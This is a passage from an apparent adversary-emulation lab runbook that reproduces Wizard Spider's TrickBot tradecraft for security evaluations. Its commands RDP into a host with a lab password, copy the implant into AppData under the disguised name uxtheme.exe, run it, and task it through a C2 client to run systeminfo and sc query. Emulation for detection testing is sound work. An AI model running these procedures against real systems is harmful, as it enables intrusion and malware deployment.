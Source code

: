 RDP into Toto and create RDP drive that has TrickBot folder structure

```bash
# Wizard Spider has used RDP for lateral movement.[5][2][8]

cd ~/
xfreerdp +clipboard /u:oz\\bill /p:"Fall2021" /v:10.0.0.8 /drive:X,wizard_spider/Resources/TrickBot/WNetval
```

Open `CMD.exe` and copy file to bill's AppData\Roaming

:warning: make sure you're in a `CMD` shell

```bash
copy \\tsclient\X\TrickBotClientExe.exe %AppData%\uxtheme.exe
```

 Kick off exeuction by starting TrickBotClientExe.exe

```bash
cd %AppData%
uxtheme.exe
```

Switch back to your C2 terminal window.

Take a screenshot of the new Trickbot session, and paste in Slack.

### :microscope: Cited Intelligence
* https://attack.mitre.org/groups/G0102/

* https://www.crowdstrike.com/blog/timelining-grim-spiders-big-game-hunting-tactics/

## Step 5 - TrickBot Discovery

:microphone: `Voice Track:`

In step 5 Wizard Spider uses TrickBot to perform detailed system discovery.

You will see TrickBot executing shell commands, such as systeminfo, sc.exe, net.exe, and so on.

Trickbot executes commands via the C standard library function, `system()`.

### :biohazard: Procedures

From your C2 server tab, execute the following commands.

```bash
# TrickBot gathers the OS version, machine name, CPU type, amount of RAM available, and UEFI/BIOS firmware information from the victim’s machine.[1][2][7][12]

./evalsC2client.py --set-task TrickBot-Implant "systeminfo > discovery.txt"
```

```bash
# TrickBot collects a list of install programs and services on the system’s machine.[1]

./evalsC2client.py --set-task TrickBot-Implant "sc query >> discovery.txt"
```
